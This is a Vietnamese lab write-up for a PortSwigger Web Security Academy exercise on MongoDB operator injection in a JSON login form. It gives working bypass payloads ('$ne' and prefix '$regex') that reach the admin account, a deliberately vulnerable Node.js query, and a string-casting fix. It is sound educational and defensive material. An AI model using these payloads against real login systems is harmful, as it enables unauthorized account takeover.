




# 1. Mục tiêu
Đăng nhập với tư cách **administrator** mà không biết mật khẩu, bằng cách khai thác **operator injection** trên chức năng login (MongoDB). Lab cho sẵn tài khoản thường `wiener:peter`.

# 2. Recon
Đăng nhập bằng tài khoản được cấp để lấy mẫu request POST. Form login gửi JSON:
```http
POST /login HTTP/2
Host: 0aec00100469536d80bd62dd003700f9.web-security-academy.net
Content-Type: application/json
Cookie: session=zonQT6RODsT22N2XfpsIeiCj2AlFtJ2m

{
    "username":"wiener",
    "password":"peter"
}
```


Đăng nhập đúng trả về `302 Found`, `Location: /my-account?id=wiener` kèm session mới. Đây là mốc "thành công" để so sánh. Vì body là JSON, mỗi field là một **giá trị** — nếu server không kiểm kiểu, ta có thể thay một chuỗi bằng một **object chứa toán tử**.

# 3. Exploit
**Bước 1 — escape password bằng operator `$ne`:**
```json
{
    "username":"wiener",
    "password":{"$ne":""}
}
```


`{"$ne":""}` nghĩa là "password khác rỗng" — luôn đúng, nên qua được bước kiểm mật khẩu và đăng nhập thẳng vào `wiener`. Chứng tỏ field `password` **không bị ép kiểu string**: đáng lẽ nhận chuỗi thì server lại nhận nguyên một object toán tử.

**Bước 2 — thử escape luôn cả username để nhảy sang admin:**
```json
{
    "username":{"$ne":"invalid"},
    "password":{"$ne":""}
}
```


Response trả về `500 Internal Server Error — "Query returned unexpected number of records"`.

> **Lỗi 500 này có phải thất bại không?** Không — đây chính là **đột phá**. Query đã chạy ngon, nhưng `$ne` khớp *tất cả* user trong khi app chỉ muốn đúng **1 record**. Nó vô tình lộ luôn **điều kiện thắng**: mình phải tiêm sao cho khớp đúng một user duy nhất — là admin.

**Bước 3 — dùng `$regex` tiền tố để khớp đúng một admin:**
```json
{
    "username":{"$regex":"admin.*"},
    "password":{"$ne":""}
}
```


Response `302 Found`, `Location: /my-account?id=adminyb8ahxw8` — đăng nhập thành công với tài khoản admin. Hoàn thành lab.

> **Vì sao `$regex:"admin.*"` thắng mà `"administrator"` hay `$in:["admin"]` lại trượt?** Vì tên admin thật **không phải** `administrator` mà là `adminyb8ahxw8` (có đuôi random — lộ ra qua `id=` trong `Location`). `$in:["admin"]` khớp 0 record; `"administrator"` cũng không tồn tại. Chỉ `admin.*` (regex tiền tố) khớp đúng một user bắt đầu bằng `admin`. Bài học: **đừng giả định tên tài khoản**; khi chưa biết đầy đủ, `$regex` tiền tố là công cụ chuẩn.

> **Biến cái 302 trong Repeater thành "Solved" thế nào?** Phiên admin mới đang nằm trong response ở Repeater, chưa có trên trình duyệt. Copy giá trị `session=...` mới → mở DevTools của trình duyệt lab, dán đè vào cookie → reload `/my-account` là banner lật sang Solved.

> **Một lỗi JSON hay gặp:** viết `{$ne:""}` sẽ báo invalid JSON. JSON bắt **mọi key phải có nháy kép**, nên phải là `{"$ne":""}`. (`{$ne:""}` là object JavaScript hợp lệ nhưng không phải JSON hợp lệ.)

# 4. Mô phỏng backend xử lý
```javascript
// [LỖI] — nhét thẳng req.body vào filter, không ép kiểu -> operator injection
const { username, password } = req.body;      // có thể là object, không chỉ string
const user = db.users.findOne({ username: username, password: password });
// {"password":{"$ne":""}} -> filter thành { password: { $ne: "" } } -> khớp mọi mật khẩu
if (user) { login(user); }
```
Cái sai: app **tin rằng `username`/`password` luôn là chuỗi**. Khi client gửi `{"$ne":""}`, parser JSON giữ nguyên cấu trúc lồng → field trở thành một **object toán tử**, và MongoDB thực thi toán tử đó.

# 5. Cách vá
```javascript
// Ép kiểu về string trước khi đưa vào query -> object toán tử bị vô hiệu
const username = String(req.body.username);
const password = String(req.body.password);
const user = db.users.findOne({ username, password });
```
Nguyên tắc: **ép kiểu/validate dữ liệu** trước khi dựng query (dùng schema/ODM như Mongoose để cưỡng chế kiểu). Khi `{"$ne":""}` bị `String(...)` biến thành chuỗi `"[object Object]"`, nó chỉ còn là một giá trị vô hại chứ không phải toán tử. Kết hợp giới hạn số record trả về và không để message lỗi lộ cấu trúc query.
